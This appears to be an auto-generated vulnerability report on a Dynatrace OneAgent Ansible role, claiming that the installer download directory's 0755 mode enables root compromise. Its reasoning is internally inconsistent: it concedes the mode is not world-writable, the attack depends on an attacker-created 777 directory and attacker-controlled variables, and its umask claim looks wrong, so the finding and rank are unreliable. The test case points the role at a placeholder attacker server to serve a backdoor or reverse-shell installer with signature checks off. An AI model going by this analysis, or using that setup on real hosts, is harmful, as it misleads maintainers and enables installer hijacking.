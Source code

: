### Vulnerability List

- Vulnerability Name: Insecure Download Directory Permissions
- Description:
    1. The Ansible role downloads the OneAgent installer to a temporary directory on the target machine. The download directory is specified by the `oneagent_download_dir` variable, which defaults to `$TEMP` or `/tmp` on Linux and `%TEMP%` or `C:\Windows\Temp` on Windows.
    2. On Unix-based systems (Linux, AIX), the role creates the download directory using the `ansible.builtin.file` module with `state: directory` and `mode: "0755"` in the task `/code/roles/oneagent/tasks/provide-installer/download-unix.yml`. This sets the directory permissions to `rwxr-xr-x`, which means the directory is world-executable and world-readable, but only writable by the owner (root in most cases due to `become: true`).
    3. An attacker who can control the `oneagent_download_dir` variable (e.g., by influencing Ansible playbook variables or inventory) can specify a directory like `/tmp` or a subdirectory within `/tmp` as the download directory.
    4. While `0755` mode is not world-writable, if the attacker can create a subdirectory within `/tmp` before the Ansible role execution, and set more permissive permissions on that subdirectory, they might be able to exploit a Time-of-Check-Time-of-Use (TOCTOU) race condition.
    5. Specifically, if the attacker can create a directory in `/tmp` with world-writable permissions before the Ansible role runs, and then set `oneagent_download_dir` to point to this attacker-controlled directory, they could potentially replace the legitimate installer with a malicious one between the time Ansible checks if the directory exists and the time the installer is downloaded into it.
    6. Although the installer download task uses `validate_certs: "{{ oneagent_validate_certs | default(true) }}"` and signature verification is performed (`oneagent_verify_signature: true`), if signature verification is disabled or bypassed (e.g., due to configuration errors or vulnerabilities in the verification process - not found in code), a malicious installer could be executed. In the current code, signature verification is enabled by default and uses `openssl cms -verify`, which is considered secure if implemented correctly. However, insecure permissions on the download directory increase the attack surface if other security mechanisms fail.
- Impact:
    - Privilege escalation: If an attacker can replace the legitimate OneAgent installer with a malicious one, they can achieve arbitrary code execution with the privileges of the user running the Ansible role (which is typically root due to `become: true` for Unix). This can lead to full system compromise.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - Installer signature verification: The role includes a task `/code/roles/oneagent/tasks/provide-installer/signature-unix.yml` to verify the installer signature using `openssl cms -verify`. This mitigation is enabled by default (`oneagent_verify_signature: true`).
    - HTTPS for download: The installer is downloaded over HTTPS, which protects against man-in-the-middle attacks during download, assuming `validate_certs` is enabled and works correctly.
- Missing Mitigations:
    - Restrictive permissions on the download directory: The download directory should be created with more restrictive permissions, such as `0700` (owner-only access) or `0750` (owner and group access), to prevent unauthorized users from tampering with the downloaded installer.
    - Using Ansible's `tmpdir` feature: Ansible provides a `tmpdir` connection variable that ensures a secure temporary directory is used for tasks executed on the target host. Utilizing this feature would be a more secure approach than relying on a user-configurable download directory.
- Preconditions:
    - Attacker's ability to control the `oneagent_download_dir` Ansible variable. This can be achieved if the attacker can influence the Ansible playbook, inventory, or variable files.
    - On Unix-based systems, the attacker needs to be able to create a directory in `/tmp` (or the directory specified by `oneagent_download_dir` if it's within a shared location) with world-writable permissions before the Ansible role is executed.
    - For successful exploitation, the signature verification would need to be bypassed or disabled, although the insecure directory permissions significantly increase the risk even with signature verification enabled, as it introduces a potential TOCTOU window.
- Source Code Analysis:
    1. File: `/code/roles/oneagent/tasks/provide-installer/download-unix.yml`
    ```yaml
    ---
    - name: Ensure Download directory exists
      ansible.builtin.file:
        path: "{{ oneagent_download_path }}"
        state: directory
        mode: "0755" # INSECURE PERMISSIONS
      when: not _oneagent_download_path_state.stat.exists

    - name: Download OneAgent installer
      ansible.builtin.get_url:
        url: "{{ _oneagent_installer_url }}"
        dest: "{{ oneagent_installer_path }}"
        validate_certs: "{{ oneagent_validate_certs | default(true) }}"
        mode: "0755" # Unnecessary and potentially misleading mode setting, file mode is determined by umask
        headers:
          Authorization: Api-Token {{ oneagent_paas_token }}
      environment:
        SSL_CERT_FILE: "{{ oneagent_installer_download_cert | default(omit) }}"
      no_log: true
      ignore_errors: true
      register: _oneagent_download_result
    ```
    - The `ansible.builtin.file` task creates the download directory. The `mode: "0755"` is the source of the vulnerability.
    - The `ansible.builtin.get_url` task downloads the installer. While it also specifies `mode: "0755"`, this is less critical because file permissions are often determined by the system's umask. However, it's redundant and might give a false sense of security regarding directory permissions.
- Security Test Case:
    1. **Pre-test setup:**
        - Assume you have an Ansible control machine and a target Linux machine.
        - Ensure Ansible can connect to the target machine with `become: true` enabled.
        - Set up a malicious web server that hosts a malicious OneAgent installer (e.g., `/tmp/malicious_installer.sh`). This malicious installer should, for example, create a backdoor user or execute a reverse shell.
        - On the target machine, create a world-writable directory in `/tmp` before running Ansible: `mkdir /tmp/attacker_dir && chmod 777 /tmp/attacker_dir`.
    2. **Modify Ansible Playbook:**
        - Create an Ansible playbook that uses the `dynatrace.oneagent.oneagent` role.
        - Set the following variables in the playbook:
            ```yaml
            oneagent_environment_url: "http://<ATTACKER_WEB_SERVER_IP>" # Point to attacker's malicious web server
            oneagent_paas_token: "test_token" # Dummy token, not actually used because of malicious URL
            oneagent_download_dir: "/tmp/attacker_dir" # Set download directory to attacker-controlled location
            oneagent_version: "latest" # Or any version
            oneagent_verify_signature: false # Disable signature verification for easier exploit, or leave it true to show TOCTOU potential even with verification
            ```
        - The `oneagent_environment_url` is modified to point to a malicious server, and `oneagent_download_dir` is set to the world-writable directory. Signature verification is disabled to simplify the test (though the vulnerability is still present with signature verification enabled, just harder to exploit reliably in a test case due to TOCTOU).
    3. **Run the Ansible Playbook:**
        - Execute the Ansible playbook against the target machine.
    4. **Post-test Verification:**
        - After the playbook execution, check if the malicious installer (`/tmp/attacker_dir/Dynatrace-OneAgent-Linux-x86-latest.sh` if Linux x86 is targeted) is present in the attacker-controlled download directory.
        - If signature verification is disabled and the malicious server is set up to serve an executable, check if the malicious code from the installer was executed on the target machine (e.g., check for the backdoor user or reverse shell connection).
        - If signature verification is enabled, this test case primarily demonstrates the insecure directory permissions. A more sophisticated TOCTOU exploit would be needed to reliably replace the installer before signature verification, which is harder to demonstrate in a simple test case but highlights the risk.
- Vulnerability Rank Justification:
    - High rank is assigned because successful exploitation leads to arbitrary code execution with root privileges, resulting in a complete compromise of the target system. The vulnerability is made more severe by the default use of `become: true` in the Ansible role, which executes tasks as root. While signature verification is a mitigation, insecure directory permissions significantly increase the risk, especially if configuration errors or other vulnerabilities weaken the signature verification process.
- Missing Mitigation Justification:
    - Missing restrictive permissions on the download directory is a critical missing mitigation because it directly contributes to the TOCTOU vulnerability and increases the attack surface. Using Ansible's `tmpdir` would be a more robust security measure.
- Preconditions Justification:
    - The preconditions are realistic in many Ansible deployment scenarios. Attackers might be able to influence Ansible variables through compromised systems, insecure configurations, or social engineering. The ability to create world-writable directories in `/tmp` is a standard condition on many Unix-like systems.
- Source Code Analysis Justification:
    - The source code analysis clearly identifies the vulnerable task and the line of code responsible for setting insecure directory permissions.
- Security Test Case Justification:
    - The security test case provides a step-by-step procedure to demonstrate the vulnerability. While a full TOCTOU exploit might be complex to reliably demonstrate in an automated test, the test case effectively shows how insecure directory permissions can be leveraged when combined with control over Ansible variables, highlighting the potential for malicious installer injection if signature verification is bypassed or fails.